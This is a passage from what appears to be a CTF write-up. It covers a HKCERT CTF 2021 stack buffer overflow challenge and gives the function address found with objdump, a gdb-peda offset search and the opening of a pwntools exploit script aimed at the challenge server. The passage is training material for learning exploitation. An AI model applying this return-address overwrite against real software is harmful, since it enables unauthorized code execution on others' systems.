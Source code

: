 Flag: `hkcert21{Infant_Browser_flag_153283eeddd3002f}`  
  
## To Modify the Past (pwn 50 pts)  
### Challenge:  
```
You may want to change something from the past, decide your future.  
This challenge contains a buffer overflow vulnerability that allows attacker to write out-of-bound, overwriting the return address on the stack.  
In order to get the flag, simply overwrite the return address with the address of get_shell function.  
Find out the number of bytes input before reaching the return address, i.e. input 1234 'A's and next 8 bytes input will overwrite the return address.  
How to find the offset: https://youtu.be/Ag0OcqbVggc?t=3408  
Find out the address of get_shell function, e.g. 0x400123  
How to find the address of a function: https://youtu.be/Ag0OcqbVggc?t=3651  
Write an exploitation script to send the payload (attack input) to the server, usually this can be done by Python and a python module pwntools, e.g. sendline(b'A'*1234+p64(0x400123))  
How to use pwntools to interact with the challenge: https://youtu.be/Ag0OcqbVggc?t=2356  
Find the flag file in the server and then cat the flag!!  
https://youtu.be/Ag0OcqbVggc?t=3824  
```
### Attachments
- [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)  

### Solution:  
Typical Return-to-function question    
1. Find get_shell address by gdb or objdump
```
objdump -M intel -D chall | grep get_shell
0000000000401182 <get_shell>:
```
2. Using GDB, find the offload as 120    
```
gdb-peda$ pattern create 130
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAk'
gdb-peda$ x/x $rsp
0x7ffffffee218: 0x414f41413941416a
gdb-peda$ x/s $rsp
0x7ffffffee218: "jAA9AAOAAk"
gdb-peda$ pattern offset jAA9AAOAAk
jAA9AAOAAk found at offset: 120
```
3. Send 120 "A"s + address of "get_shell" + send "Y" to return to rsp="get_shell"
4. `python3 exp.py` and get flag
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chalp.hkcert21.pwnable.hk --port 28028 ./chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'chalp.hkcert21.pwnable.hk'
port = int(args.PORT or 28028)
```